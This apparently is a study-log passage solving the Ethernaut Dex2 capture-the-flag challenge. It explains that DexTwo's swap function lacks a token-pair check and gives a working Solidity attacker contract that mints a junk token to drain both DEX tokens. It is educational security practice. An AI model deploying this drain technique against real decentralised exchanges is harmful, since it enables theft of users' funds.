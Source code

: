 ## Day 21

### Ethernaut #23 Dex2

This is a similar to an exercise we did using Echidna, also an Ethernaut challenge called Dex.  The main contract DexTwo is a DEX or decentralized exhcnage.  The problem with the first challenge was in the ```getSwapAmount()``` method, so let's compare those from the two challenges.

```Java
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
```

Let's take a look at this function in the previous challenge: 

```Java
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }
```

The first challenge has an extra require statement: 

```Java
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

Without this staement we should be able to trade any tokens we want.  We will create a bogus coin, mint all the supply to ourselves and use this to drain the DEX.  Code to accomplish this is below.  

```Java
  contract Attacker{
      DexTwo immutable public dex;
      SwappableTokenTwo immutable junkcoin;
      address public token1;
      address public token2;

      constructor(address _dexAdd){
        dex = DexTwo(_dexAdd);
        junkcoin = new SwappableTokenTwo(_dexAdd, "junkcoin", "Junk", 1_000_000);
      }

      function attack() external {
        token1 = dex.token1();
        token2 = dex.token2();

        // add liquidity, so that DEx junkcoin balance is nonzero, we can't use dex.addLiqudity()
        junkcoin.transfer(address(dex), 100);

        // empty first coin
        junkcoin.approve(address(this), address(dex), 100);
        dex.swap(address(junkcoin), address(token1), 100);

        // now Dex has 200 junkcoins and 100 token2, so the swap ratio will be 1/2
        junkcoin.approve(address(this), address(dex), 200);
        dex.swap(address(junkcoin), address(token2), 200);
      }
  }
```

A few details should be metnioned.  We first create a new ERC20 token and mint some supply.  The minimum we need is 400 tokens. After the tokens are minted we need to transfer 100 tokens to the DEX. If we don't then we will get a divide by 0 error during ```getSwapAmount()```.   The DEX ```.addliquitidy()``` method cannot be used becuase it has the ```onlyOwner()``` modifier.  We will use the token's ```.tranfer()``` instead.  After this we can do a one for one swap for token1, then the DEX will have a balance of 200 junkcoins and we will need to send 200 junkcoins for 100 token2.  

### Ethernaut #17

### Damn Vulnerable DeFi #2 Naive Receiver


